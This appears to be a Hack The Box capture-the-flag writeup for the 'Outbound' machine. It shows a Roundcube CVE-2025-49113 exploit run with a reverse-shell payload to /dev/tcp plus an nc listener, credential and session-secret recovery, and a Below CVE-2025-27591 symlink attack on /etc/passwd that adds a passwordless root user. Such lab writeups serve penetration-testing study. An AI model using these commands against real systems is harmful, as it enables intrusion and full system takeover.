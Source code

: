 ```yaml
---
title: HTB Outbound - Writeup
date: 2025-08-07 10:00:00 +0330
categories: [Writeup]
tags: [cve]
description: My writeup of Outbound from Hack The Box 

---
```

![](assets/img/Outbound.png)

## - **Recon & Enum**
As always, starting with an Nmap scan.
```
$ nmap -sC -sV -oN outbound_nmap --min-rate=1000 mail.outbound.htb

Nmap scan report for mail.outbound.htb (10.10.11.77)
Host is up (0.29s latency).
rDNS record for 10.10.11.77: outbound.htb
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.12 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 0c:4b:d2:76:ab:10:06:92:05:dc:f7:55:94:7f:18:df (ECDSA)
|_  256 2d:6d:4a:4c:ee:2e:11:b6:c8:90:e6:83:e9:df:38:b0 (ED25519)
80/tcp open  http    nginx 1.24.0 (Ubuntu)
|_http-server-header: nginx/1.24.0 (Ubuntu)
|_http-title: Roundcube Webmail :: Welcome to Roundcube Webmail
|_http-trane-info: Problem with XML parsing of /evox/about
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kerne
```


HTB provided the following:
- `tyler` : `LhKL1o9Nm3X2`
After log in, we see Roundcube Webmail version 1.6.10 is installed which is vulnerable to CVE-2025-49113. so I used this php [POC](https://github.com/hakaioffsec/CVE-2025-49113-exploit) to get a shell.

## - **Foothold**

```
$ php CVE-2025-49113.php http://mail.outbound.htb tyler LhKL1o9Nm3X2 '/bin/bash -c "/bin/sh -i >& /dev/tcp/*.*.*.*/8080 0>&1"'
[+] Starting exploit (CVE-2025-49113)...
[*] Checking Roundcube version...
[*] Detected Roundcube version: 10610
[+] Target is vulnerable!
[+] Login successful!
[*] Exploiting...
```


```
$ nc -nvlp 8080
listening on [any] 8080 ...
connect to [*.*.*.*] from (UNKNOWN) [10.10.11.77] 37704
/bin/sh: 0: can't access tty; job control turned off
$ script /dev/null -qc /bin/bash
www-data@mail:/$
```

Now we can switch user to tyler, and move laterally to get a user with sufficient privileges.  
From `/var/www/html/roundcube/config/config.inc.php` we learn some valuable info such as database credentials and a des key.  
When checking the `users` table, I got some hashes (supposedly) and in order to find the type (as they looked more like encoded strings) I checked the source codes and discovered thoses are just random strings.  
Looking again, we get a base64 encoded session identifier from the session table.  
Now we have DES3 encrypted hash for jacob, `L7Rv00A8TuwJAr67kITxxcSgnIk25Am/`

```
language|s:5:"en_US";imap_namespace|a:4:{s:8:"personal";a:1:{i:0;a:2:{i:0;s:0:"";i:1;s:1:"/";}}s:5:"other";N;s:6:"shared";N;s:10:"prefix_out";s:0:"";}imap_delimiter|s:1:"/";imap_list_conf|a:2:{i:0;N;i:1;a:0:{}}user_id|i:1;username|s:5:"jacob";storage_host|s:9:"localhost";storage_port|i:143;storage_ssl|b:0;password|s:32:"L7Rv00A8TuwJAr67kITxxcSgnIk25Am/";login_time|i:1749397119;timezone|s:13:"Europe/London";STORAGE_SPECIAL-USE|b:1;auth_secret|s:26:"DpYqv6maI9HxDL5GhcCd8JaQQW";request_token|s:32:"TIsOaABA1zHSXZOBpH6up5XFyayNRHaw";task|s:4:"mail";skin_config|a:7:{s:17:"supported_layouts";a:1:{i:0;s:10:"widescreen";}s:22:"jquery_ui_colors_theme";s:9:"bootstrap";s:18:"embed_css_location";s:17:"/styles/embed.css";s:19:"editor_css_location";s:17:"/styles/embed.css";s:17:"dark_mode_support";b:1;s:26:"media_browser_css_location";s:4:"none";s:21:"additional_logo_types";a:3:{i:0;s:4:"dark";i:1;s:5:"small";i:2;s:10:"small-dark";}}imap_host|s:9:"localhost";page|i:1;mbox|s:5:"INBOX";sort_col|s:0:"";sort_order|s:4:"DESC";STORAGE_THREAD|a:3:{i:0;s:10:"REFERENCES";i:1;s:4:"REFS";i:2;s:14:"ORDEREDSUBJECT";}STORAGE_QUOTA|b:0;STORAGE_LIST-EXTENDED|b:1;list_attrib|a:6:{s:4:"name";s:8:"messages";s:2:"id";s:11:"messagelist";s:5:"class";s:42:"listing messagelist sortheader fixedheader";s:15:"aria-labelledby";s:22:"aria-label-messagelist";s:9:"data-list";s:12:"message_list";s:14:"data-label-msg";s:18:"The list is empty.";}unseen_count|a:2:{s:5:"INBOX";i:2;s:5:"Trash";i:0;}folders|a:1:{s:5:"INBOX";a:2:{s:3:"cnt";i:2;s:6:"maxuid";i:3;}}list_mod_seq|s:2:"10";
```

with the des key we got from the conf file, I decrypted the password using an online decryption tool.

- `jacob` : `595mO8DmwGeD`

```
tyler@mail:/$ su jacob
Password: 
jacob@mail:/$ id
uid=1001(jacob) gid=1001(jacob) groups=1001(jacob)
```

## - **User**

We still can't use SSH but now we can read `/var/mail/jacob`. there are two valuable information. first the new password for jacob (which will grant ssh to outbound.htb) and second, jacob has access to Below.  

```
$ ssh jacob@10.10.11.77      
jacob@10.10.11.77's password:
jacob@outbound:~$ id
uid=1002(jacob) gid=1002(jacob) groups=1002(jacob),100(users)
jacob@outbound:~$ sudo -l
Matching Defaults entries for jacob on outbound:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User jacob may run the following commands on outbound:
    (ALL : ALL) NOPASSWD: /usr/bin/below *, !/usr/bin/below --config*, !/usr/bin/below --debug*, !/usr/bin/below -d*
jacob@outbound:~$
```

## - **Root**
Looking up Below (version 0.8.0 is installed), there is a privilege escalation vulnerability [CVE-2025-27591](https://github.com/rvizx/CVE-2025-27591)

```
jacob@outbound:~$ rm -f /var/log/below/error_root.log
jacob@outbound:~$ ln -s /etc/passwd /var/log/below/error_root.log
jacob@outbound:~$ sudo /usr/bin/below snapshot --begin now 2>/dev/null
Snapshot has been created at snapshot_01755001740_01755001740.qXLR1E
jacob@outbound:~$ ls -la /etc/passwd
-rw-rw-rw- 1 root root 1840 Jul 14 16:40 /etc/passwd
jacob@outbound:~$ echo 'my_root::0:0:root:/root:/bin/bash' >> /etc/passwd
jacob@outbound:~$ su my_root
root@outbound:/home/jacob# cd
root@outbound:~# id
uid=0(root) gid=0(root) groups=0(root)
root@outbound:~#
```


 
![](assets/img/outbound_pwn.png)